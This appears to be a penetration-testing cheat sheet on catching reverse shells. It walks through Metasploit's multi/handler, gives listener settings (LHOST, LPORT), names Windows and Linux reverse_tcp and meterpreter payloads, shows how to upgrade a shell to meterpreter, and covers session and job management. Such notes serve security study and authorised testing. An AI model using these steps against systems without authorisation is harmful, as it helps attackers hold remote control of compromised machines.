 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell \([https://netsec.ws/?p=292](https://netsec.ws/?p=292)\)
    * windows listener `set payload windows/shell/reverse_tcp`
    * linux listener `set payload linux/x86/shell/reverse_tcp`
  * meterpreter shell
    * windows listener `payload windows/meterpreter/reverse_tcp`
    * linux listener payload linux

## Upgrade Shell to meterpreter shell

* You need to have a metasploit listener for netcat.
* You need to create a new session. Either Ctrl+z or `background`.
* Then we need to change the exploit first to "shell\_to\_meterpreter".
  * `use post/multi/manage/shell_to_meterpreter`

## Session Management

### List active sessions and process

* Linux \(search for port 4444\)
  * lsof -t -i:4444
  * netstat -ano \| grep 4444
  * ps
* Windows
  * netstat -ano

### Managing "jobs" in metsploit framework

* List all jobs
  * jobs
* Kill all jobs
  * jobs -K
* Jobs help
  * help jobs
* 
### Killing a session

* Linux \(killing service with pid\)
  * kill -9 1234



![TCP connection states](../../../.gitbook/assets/image%20%2842%29.png)

